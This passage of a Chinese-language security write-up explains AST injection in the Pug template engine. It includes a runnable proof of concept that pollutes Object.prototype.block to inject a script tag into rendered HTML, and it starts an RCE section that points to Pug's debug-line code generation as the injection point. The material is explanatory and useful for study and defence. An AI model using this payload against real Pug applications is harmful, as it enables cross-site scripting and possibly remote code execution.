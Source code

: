 以刚刚生成的语法树结构举例，解析顺序为：

1.  Block
2.  Tag
3.  Block
4.  Code
5.  …?

注意第 4 步解析 `node.Type` 为 `Code` 类型，会执行如下代码：

```bash
case 'Code':
        case 'While':
          if (ast.block) { // 注意这里
            ast.block = walkAST(ast.block, before, after, options);
          }
```

1.  判断 `ast.block` 属性是否存在，此处的 `ast` 即当前 ast 语法树的节点
2.  如果存在，继续递归解析 block

#### 结合原型链污染

如果某处存在原型链污染漏洞，使得

```bash
Object.prototype.block = {"type":"Text","val":`<script>alert(origin)</script>`};
```

那么 `ast.block` 就会访问到 `ast.__proto__.block` ，即`Object.prototype.block` 的属性

此时代码输出结果，导致了 XSS

```bash
const pug = require('pug');

Object.prototype.block = {"type":"Text","val":`<script>alert(origin)</script>`};

const source = `h1= msg`;

var fn = pug.compile(source, {});
var html = fn({msg: 'It works'});

console.log(html); // <h1>It works<script>alert(origin)</script></h1>
```

## RCE

我们知道 pug 本质上是将一段代码，如 `h1 =msg` 编译为一段 js 代码，背后其实就是生成语法树 + `new Function`

因此如果能通过 AST Injection 插入节点，并使之成为代码，即可达到远程代码执行的目的。

刚好 pug 中就有如下代码：

```bash
// /node_modules/pug-code-gen/index.js

if (debug && node.debug !== false && node.type !== 'Block') {  
    if (node.line) {  
        var js = ';pug_debug_line = ' + node.line;  
        if (node.filename)  
            js += ';pug_debug_filename = ' + stringify(node.filename);  
        this.buf.push(js + ';');  
    }  
}
```
